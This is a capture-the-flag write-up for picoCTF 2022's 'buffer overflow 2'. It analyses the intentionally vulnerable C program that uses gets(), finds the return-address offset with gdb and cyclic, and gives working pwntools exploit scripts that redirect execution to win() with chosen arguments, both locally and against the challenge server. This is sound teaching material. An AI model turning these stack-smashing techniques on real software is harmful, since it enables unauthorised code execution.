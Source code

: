 # buffer overflow 2

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 300
Tags: picoCTF 2022, Binary Exploitation, gets, arguments_on_the_stack
Author: SANJAY C / PALASH OSWAL

Description:
Control the return address and arguments

This time you'll need to control the arguments to the function you return to! 
Can you get the flag from this program?

You can view source here. And connect with it using nc saturn.picoctf.net 52580

Hints:
1. Try using GDB to print out the stack once you write to it.
```
Challenge link: [https://play.picoctf.org/practice/challenge/259](https://play.picoctf.org/practice/challenge/259)

## Solution

This challenge is a continuation of the [previous challenge](buffer_overflow_1.md) but with arguments also.

### Analyze the given files

Let's start by looking at the given files. First the C source code.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Compared to the previous challenge the major differences are:
 - The argument checks in the `win` function
 - No printing of the memory address to help us
 - The slightly larger `BUFSIZE` of `100` bytes.

The `vuln` file is still a 32-bit non-stripped ELF binary
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped
```

### Manually identifying the offset

Let's create a [de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) that is 200 bytes long.
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ ~/python_venvs/pwntools/bin/cyclic 200 > pattern_200.txt
```

Then we try it out locally to find the offset with `gdb`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ gdb -q vuln                 
Reading symbols from vuln...
(No debugging symbols found in vuln)
(gdb) run < pattern_200.txt 
Starting program: /mnt/hgfs/CTFs/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2/vuln < pattern_200.txt
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
(gdb) exit
A debugging session is active.

        Inferior 1 [process 87839] will be killed.

Quit anyway? (y or n) y

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ ~/python_venvs/pwntools/bin/cyclic -l 0x62616164        
112
```
So the offset on the stack to the return address is `112` bytes.

### Get the addess of the win function

Now we need to find out the virtual address of the `win` function.  
This can be done with `objdump` or `gdb`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ objdump -t vuln | grep win
08049296 g     F .text  000000a2              win

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ gdb -batch -ex 'info functions' vuln | grep win
0x08049296  win
```
So the address to `win` is `0x08049296`.

### Write an exploit

Let's write a small exploit in Python with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html)
```python
#!/usr/bin/python

from pwn import *
import sys

offset = 112
padding = b'A'

win = p32(0x08049296)       # Address to win function
dummy = p32(0x42424242)     # Fake return address
arg_1 = p32(0xCAFEF00D)     # Argument 1
arg_2 = p32(0xF00DF00D)     # Argument 2

payload = padding*offset + win + dummy + arg_1 + arg_2
    
sys.stdout.buffer.write(payload)
```
And then we try it out locally
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ echo "picoCTF{fake_flag}" > flag.txt

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ ~/python_venvs/pwntools/bin/python local_exploit.py | ./vuln
Please enter your string: 
���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�4321
picoCTF{fake_flag}
zsh: done                ~/python_venvs/pwntools/bin/python local_exploit.py | 
zsh: segmentation fault  ./vuln
```
It works, but later the program crashes due to un invalid memory address after the `win` function.  
We can ignore this.

### Get the flag

Let's modify the Python script to connect to the server instead
```python
#!/usr/bin/python

from pwn import *

SERVER = 'saturn.picoctf.net'
PORT = 52580

io = remote(SERVER, PORT)

offset = 112
padding = b'A'

win = p32(0x08049296)       # Address to win function
dummy = p32(0x42424242)     # Fake return address
arg_1 = p32(0xCAFEF00D)     # Argument 1
arg_2 = p32(0xF00DF00D)     # Argument 2

payload = padding*offset + win + dummy + arg_1 + arg_2
    
io.sendline(payload)
print(io.recvallS())
io.close()
```

And then we run the script to get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ ~/python_venvs/pwntools/bin/python remote_exploit.py
[+] Opening connection to saturn.picoctf.net on port 52580: Done
[+] Receiving all data: Done (190B)
[*] Closed connection to saturn.picoctf.net port 52580
Please enter your string: 
ð
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [gdb - Linux manual page](https://man7.org/linux/man-pages/man1/gdb.1.html)
- [objdump - Linux manual page](https://man7.org/linux/man-pages/man1/objdump.1.html)
- [pwntools - Documentation](https://docs.pwntools.com/en/stable/index.html)
- [Wikipedia - Buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow)
- [Wikipedia - de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence)
